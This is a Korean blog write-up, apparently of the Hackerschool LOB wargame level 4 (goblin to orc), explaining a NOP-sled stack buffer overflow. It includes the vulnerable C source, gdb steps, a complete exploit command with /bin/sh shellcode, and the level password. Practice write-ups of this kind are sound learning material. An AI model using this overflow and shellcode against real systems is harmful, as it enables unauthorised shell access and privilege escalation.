 ```yaml
---
date: '2022-10-14'
before : '2022-10-13'
after : '2022-10-15'
title: 'FTZ LOB LEVEL 4'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에 

드디어 새로운 형식의 BOF문제다! 재미있게 한 번 풀어보자.

### 1. Level 4 : Goblin -> Orc

코드를 확인해보니, egghunter라는 녀석이 모든 환경변수를 초기화하고있다.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```
일단 어셈블리도 확인해보고 어떻게 할지 알아보도록 하자.
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048630
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049750
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

### 2. NOP SLED

오늘은 NOP SLED라는 방식을 활용할 것이다. NOP SLED란 컴퓨터 기계단에서 포인터가 다음 실행될 코드의 주소를 가리킬 때, \x90 (NOP)가 있으면 SLED, 썰매를 타듯이 계속 다음 코드를 자동으로 포인팅하여 실행(혹은 디코딩)가능한 내용물이 나오기까지 계속해서 주소를 이동시키는 로직을 이용한 방법이다.
#
#
우리가 두 개의 문자열을 매개변수로 남긴다고 가정해보자. (물론 프로그램에서 매개변수를 하나로 제한한다면 다른 방법을 생각해야 할 것이다.) 
#
#
gdb를 활용하면 얼마든지 두 매개변수의 주소를 구할 수 있다. (예를 들어 두놈 다 \x90을 실컷 넣어놓고 실행시킨 다음 디버깅을 하면서 00000000이 계속해서 나오는 지점을 확인하면 된다.)
#
#
단, 이는 우리가 실제 문제 코드를 실행시킨 게 아닌, 코드를 카피해서 만든 프로그램으로 진행해야하기에 완벽하게 주소를 알아내는 것은 불가능하다. 하지만 똑같은 코드이기에 **대략적인** 주소는 확인 가능하다. 
#
#
여기서 NOP SLED가 등장한다. 대충 여기인 것 같다면, 그 곳부터 \x90을 잔뜩 넣은 후 그 후에 쉘코드를 꽂아주자. 그러면 실제 프로그램에서도  **"대충 그 어디쯤에 들어간"** 두 번째 매개변수가 쉘을 실행시켜 줄 것이다.
#
# 
하지만 이걸 위해서는 당연히 첫 번째 매개변수에 늘 하던것과 똑같이 bof를 발생시켜 return지점을 바로 저 두 번째 매개변수의 대략적인 시작지점으로 바꿔줘야 한다. 


### 3. 실제 흐름

일단 orc파일을 복사해서 실행파일로 만든 다음 그 파일을 gdb로 디버깅한다.

```
gdb copy
b * main //main 함수 시작하자마자 브레이크 포인트.
r `python -c "print '\x90'*44 + '\xff\xff\xff\xbf'"` ``python -c "print '\x90' * 200"` 
// 실행시킬 때 실제 버퍼오버플로우처럼 44 + 4바이트 리턴주소를 넣어준다.

//실행하면 브레이크 포인트가 걸렸을 것이다. 레지스터의 구조를 확인하기 위해 다음과 같은 명령어를 입랙현다

x/200x $ebp
```
여기서 내가 gdb로 도대체 무슨짓을 한건지 모르겠다면, gdb 디버거에 대해 조금 공부해보자. b는 브레이크포인트고, r은 브레이크 포인트 건 상태에서 코드를 실행하기 위한 명령어일 뿐이다. 


하여튼 마지막 코드를 입력하면 현제 레지스터 주소의 점유현황이 (꽤 길게) 나타난다. 이 중에서 00000000이 쭉 이어지는 부분을 찾으면 그곳이 대략적인 두 번째 매개변수의 주소다.


이렇게 확인한 두 번째 매개변수의 주소는 다음과 같다 :
```
\xc8\xfb\xff\xbf
```

따라서 익스플로잇 : 

```
 ./orc `python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
 ```
 
 비밀번호 : cantata

 ---
## Source

- 해커스쿨 FTZ
- Me!
